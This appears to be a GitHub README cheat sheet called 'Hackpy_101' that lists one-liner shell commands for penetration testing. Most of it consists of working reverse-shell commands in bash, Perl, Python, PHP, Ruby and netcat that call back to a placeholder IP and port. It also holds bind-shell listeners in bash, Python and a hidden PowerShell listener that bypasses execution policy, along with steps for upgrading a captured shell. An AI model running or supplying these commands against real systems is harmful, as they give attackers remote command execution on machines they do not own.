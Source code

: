 # Hackpy_101
Contains Various one liner scripts of python to help you in the Ethical hacking.

# For HTTP SERVER
Python2 :- python -m SimpleHTTPServer <port>
Python3 :- python -m  http.server <port>
To open a sever on specific IP we use -- bind 
For ex- python -m http.server port --bind <IP> 
If this doesnt work use python2 version.

# For Requesting a Interactive Shells
python -c 'import pty; pty.spawn("/bin/bash")'
This will upgrade a dumb shell to an interactive one
If this doesnt work for you then try doing this step wise\ 

**In reverse shell**\
$ python -c 'import pty; pty.spawn("/bin/bash")'\
Ctrl-Z\
**In Kali**\
$ stty raw -echo\
$ fg\
**In reverse shell**\
$ reset\
$ export SHELL=bash\
$ export TERM=xterm-256color\
$ stty rows <num> columns <cols>

**For Echo**\
echo 'os.system('/bin/bash')'\

**sh**\
/bin/sh -i\

**bash**\
/bin/bash -i\

**Perl**\
perl -e 'exec "/bin/sh";'\

**From within VI**\
:!bash

  
# THIS IS WHAT YOU CALL A CONNECTOR TO A LISTENER
**THIS IS USED FOR REVERSE CONNECTIONS.\
IF YOU DONT KNOW WHAT THIS MEANS --> "GOOGLE IT!!"\
YOU CAN USE EITHER OF THE METHODS, GIVEN THAT THE SPECIFIC LANGUAGE IS INSTALLED IN YOUR SYSTEM**
# BASH
bash -i >& /dev/tcp/IP/PORT 0>&1

# PERL
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
nc -e /bin/sh IP PORT

# OTHERS
r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP port >/tmp/f

# For Bind Shells.

# For Bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

# For Python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

# For Powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

